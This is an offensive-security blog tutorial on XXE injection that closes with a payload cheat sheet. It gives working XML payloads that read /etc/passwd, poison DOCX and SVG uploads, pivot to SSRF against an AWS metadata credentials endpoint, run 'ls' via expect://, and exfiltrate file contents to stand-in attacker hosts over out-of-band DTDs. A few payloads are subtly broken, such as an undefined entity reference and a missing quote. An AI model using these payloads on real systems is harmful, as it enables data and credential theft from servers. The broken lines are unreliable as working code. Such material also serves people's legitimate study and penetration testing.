 ```yaml
---
title: "XXE"
date: 2021-06-07T18:17:00+07:00
draft: false
categories: [
    "Offensive Security"
]
tags: [
    "XXE",
]
---
```

## What is XXE
XXE = XML eXternal Entities

XXE can occur when XML documents get parsed. We traditionally think of XXE vulnerabilities as uploading an XML file that includes an external entity, an example of this would be:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```
We might be able to upload this file if we save it as .xml into an application that process XML files but what some people don't know is that some other file types consist of XML files. 
## Types of XXE attacks
XXE can be abused to perform several types of attacks. It can even be chained into things like SSRF.
* XXE to retrieve files
* XXE to perform SSRF
* Blind XXE
### XXE To retrieve files
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<product>&xxe;</product>
<adress>&xxe;</adress>
```
In this example we first define the document type and in there we define a new Entity called "XXE". This entity is made to execute a system call. This can be anything like ls, a reverse shell or in this case a file inclusion. It will grab the /etc/passwd file.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
Next we will display that entity xxe into every possible field of our XML file. It's very important to insert your XXE entity into every single XML element. Any of them can be vulnerable as the developer has to filter ALL the fields indivually.\
#### Example
Request
![retrieve_file_1.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_1.PNG)
![retrieve_file_2.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_2.PNG)
From here, we can modify the XML data to add in an XXE to request the file we wish to target.
![retrieve_file_3.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_3.PNG)
Response
![retrieve_file_4.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_4.PNG)
#### XXE through the XInclude tag
Often, an attacker does not have full control over the XML data, but has control over an input passed into the data. In these cases, they can’t inject an entity before the XML parameters, which makes it appear impossible to conduct XXE attacks. Often however, it is possible to do a XXE attack with just access to a single parameter, using the XInclude feature of XML.\
XInclude can be thought of as a way of including another XML document within an existing one. Using this feature, we can include a XML component that defines our external entity, and use that to leak data from the server. In this situation, the data sent from the client includes only the parameters required to add to the XML.
![xinclude1.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/xinclude1.PNG)
To setup the XInclude, we need to inject data into the product ID parameter. The payload will look like below.
![xinclude2.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/xinclude2.PNG)
Without all of the encoding, the payload is:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
#### Exploiting XXE using SVG Files or docx files or xlsx files
Gen docx file with python
![docx1.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/docx1.PNG)
A Docx file is mostly just zipped up xml files. We need to unzip the resume.docx file and modify the contents in “word/document.xml”. Then, save our changes back to resume.docx.
![docx2.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/docx2.PNG)
Two modifications are needed in document.xml.
```xml
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
```
![docx4.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/docx4.PNG)
You can do the same with xlsx and svg
![svg.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/svg.PNG)
### XXE Into SSRF
A SSRF attack allows an attacker to perform server-side request forgery. This basically means that the attacker can make HTTP requests to any URL the server can access. This means that they can access URLs that they typically don’t have permission to access, which could potentially leak data.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM
"http://intranet.cheeseshop.com"> ]>
```
### Blind XXE
The majority of XXE vulnerabilities in the wild will be blind XXE attacks. To detect these we can use an out of band webserver that we host ourselves and make the target do a callback to our server using the same technique we used previously in XXE into SSRF.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com">
]>
```
If we detect blind XXE, we can exfiltrate data via OAST
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://webattacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Our first entity will grab the data file /etc/passwd and our second entity will make a callback to our server with the contents of the /etc/passwd file in a get parameter.
## Cheetsheat
```xml
 --------------------------------------------------------------------
using external entities:
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
--------------------------------------------------------------------
perform SSRF attacks:
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
--------------------------------------------------------------------
Blind XXE with out-of-band interaction:
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://burp-collab"> ]>
--------------------------------------------------------------------
Blind XXE with out-of-band interaction via XML parameter entities:
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://burp-collaborator> %xxe; ]>
--------------------------------------------------------------------
blind XXE to exfiltrate data using a malicious external DTD:
DTD file:
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; test SYSTEM 'http://burp-collaborator/?a=%file;'>">
%eval;
%test;
XXE Payload:
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
-------------------------------------------------------------------
blind XXE to retrieve data via error messages:
DTD file:
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % notvalid "<!ENTITY &#x25; test SYSTEM 'file:///invalid/%file;'>">
%notvalid;
%test;
XXE Payload:
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
-------------------------------------------------------------------
XInclude to retrieve files:
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
-------------------------------------------------------------------
XXE via image file upload:
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
--------------------------------------------------------------------
XXE inside SOAP body:
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
-------------------------------------------------------------------
XXE: Base64 Encoded:
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
-------------------------------------------------------------------
XXE inside SVG:
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
--------------------------------------------------------------------
```
## Note
Alway check file upload can inject xml
* profile pictures (.svg)
* banners (.svg)
* photo albums (.svg)
* XML imports (.xml)
* DOCX/XLSX imports (.docx/.xlsx)
* SOAP requests
* ...

## References

-[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)\
-[https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)

